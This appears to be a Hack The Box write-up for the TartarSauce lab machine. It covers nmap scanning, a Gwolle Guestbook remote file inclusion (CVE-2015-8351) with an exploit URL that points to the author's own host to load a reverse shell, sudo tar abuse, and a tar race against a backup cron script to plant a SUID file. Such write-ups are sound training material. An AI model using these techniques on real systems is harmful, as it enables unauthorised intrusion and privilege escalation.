

# TartarSauce

## Overview

This was a very good box. I started with exploiting a wordpress plugin and then a tar exploit to root.


**Name -** TartarSauce

**Difficulty -** Medium

**OS -** Linux

**Points -** 30

## Information Gathering

### **Port Scan**

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 3s
╰─ nmap 10.129.1.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 23:35 +06
Nmap scan report for 10.129.1.185
Host is up (0.43s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

Version Scan

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ nmap 10.129.1.185 -sC -sV -p80 --script vuln
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-12 23:38 +06
Verbosity Increased to 1.
Verbosity Increased to 2.
NSE Timing: About 98.65% done; ETC: 23:45 (0:00:05 remaining)
NSE Timing: About 98.65% done; ETC: 23:45 (0:00:05 remaining)
NSE Timing: About 98.65% done; ETC: 23:46 (0:00:06 remaining)
NSE Timing: About 98.65% done; ETC: 23:46 (0:00:06 remaining)
NSE Timing: About 98.65% done; ETC: 23:47 (0:00:07 remaining)
Completed NSE at 23:47, 502.42s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 23:47
Completed NSE at 23:47, 0.74s elapsed
Nmap scan report for 10.129.1.185
Host is up (0.074s latency).
Scanned at 2023-06-12 23:39:00 +06 for 510s

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners:
|   cpe:/a:apache:http_server:2.4.18:
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631   *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9       *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427    *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502    *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8       *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2       *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332       *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B       *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE       *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577    *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D *EXPLOIT*
|       EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355 *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40909    5.0     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
|       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573    *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D       *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575    *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|_      PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441   *EXPLOIT*
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 23:47
Completed NSE at 23:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 23:47
Completed NSE at 23:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 521.81 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (84B)
```

### **HTTP Enumeration**

Visiting the website gives us the following



From robots.txt I found the following


From all the above directories only “**/webservices/monstra-3.0.4/**” works


And default admin:admin credential allow me into the dashboard


This version contains many cve but nothing worked. But luckily gobuster reveals another interesting endpoint


Visiting the /wp reveals a wordpress site


wpscan found some interesting plugins


But in reade.txt I found that the actual version of gwolle-gb is 1.5.3


This version has a public exploit with [CVE-2015-8351](https://nvd.nist.gov/vuln/detail/CVE-2015-8351)

```markdown
Advisory ID: HTB23275
Product: Gwolle Guestbook WordPress Plugin
Vendor: Marcel Pol
Vulnerable Version(s): 1.5.3 and probably prior
Tested Version: 1.5.3
Advisory Publication: October 14, 2015 [without technical details]
Vendor Notification: October 14, 2015
Vendor Patch: October 16, 2015
Public Disclosure: November 4, 2015
Vulnerability Type: PHP File Inclusion [CWE-98]
CVE Reference: CVE-2015-8351
Risk Level: Critical
CVSSv3 Base Score: 9.0 [CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H]
Solution Status: Fixed by Vendor
Discovered and Provided: High-Tech Bridge Security Research Lab ( https://www.htbridge.com/advisory/ )

---

Advisory Details:

High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise.

---

Solution:

Update to Gwolle Guestbook 1.5.4

More Information:
https://wordpress.org/plugins/gwolle-gb/changelog/

---

References:

[1] High-Tech Bridge Advisory HTB23275 - https://www.htbridge.com/advisory/HTB23275 - PHP File Inclusion in Gwolle Guestbook WordPress Plugin.
[2] Gwolle Guestbook WordPress Plugin - https://wordpress.org/plugins/gwolle-gb/ - Gwolle Guestbook is the WordPress guestbook you've just been looking for.
[3] Common Vulnerabilities and Exposures (CVE) - http://cve.mitre.org/ - international in scope and free for public use, CVE® is a dictionary of publicly known information security vulnerabilities and exposures.
[4] Common Weakness Enumeration (CWE) - http://cwe.mitre.org - targeted to developers and security practitioners, CWE is a formal list of software weakness types.
[5] ImmuniWeb® SaaS - https://www.htbridge.com/immuniweb/ - hybrid of manual web application penetration test and cutting-edge vulnerability scanner available online via a Software-as-a-Service (SaaS) model.

---

Disclaimer: The information provided in this Advisory is provided "as is" and without any warranty of any kind. Details of this Advisory may be updated in order to provide as accurate information as possible. The latest version of the Advisory is available on web page [1] in the References.
```

It is appending wp-load.php with url when trying to do the RFI

```
http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.13:8888/test.php
```


And I created a reverse shell named as wp-load.php and hit the RFI. This time, I managed to get the shell


## Getting User.txt

www-data user has sudo privilege to run /bin/tar as onuma user

```bash
www-data@TartarSauce:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

By exploiting this I managed to get a shell as onuma


User Flag - cf70e84aca4e07479ff5c763aac86d15

## Getting root.txt

I got a file /usr/sbin/backuperer running cronically

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

So, It is creating a gzip file compressing /var/www/html. And after 30 seconds it is extracting that gzip file to /var/tmp/check folder. To exploit this I created a SUID file in my local machine in /var/www/html/bash. After that I compressed it to a gzip file. Whenever the backuperer will create the gzip file, I will replace that file with my file. So, it will then extract my SUID file.


Root flag - 9b0318b85dda59dd2a54f9042ddbc605

## Flags

**user.txt -** cf70e84aca4e07479ff5c763aac86d15

**root.txt -** 9b0318b85dda59dd2a54f9042ddbc605
